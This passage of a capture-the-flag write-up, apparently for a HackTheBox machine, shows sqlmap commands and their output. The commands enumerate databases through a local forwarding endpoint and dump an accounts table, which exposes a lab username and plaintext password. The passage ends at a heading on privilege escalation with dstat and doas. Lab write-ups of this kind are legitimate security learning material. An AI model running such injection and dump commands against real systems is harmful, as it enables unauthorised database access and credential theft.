 ```bash
[14:23:51] [INFO] retrieved: sys
[14:24:35] [INFO] retrieved: soccer_db
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Retrieve tables form "soccer_db" database.
```bash
sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --dbms=mysql -D soccer_db --tables

... [snip] ...

[14:28:35] [INFO] fetching tables for database: 'soccer_db'
[14:28:35] [INFO] fetching number of tables for database 'soccer_db'
[14:28:35] [INFO] retrieved: 1
[14:28:51] [INFO] retrieved: accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```


Dumping data from "soccer_db" database.
```bash
sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --dbms=mysql -D soccer_db -T accounts --dump

... [snip] ...

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

```

# Privesc

## dstat with doas
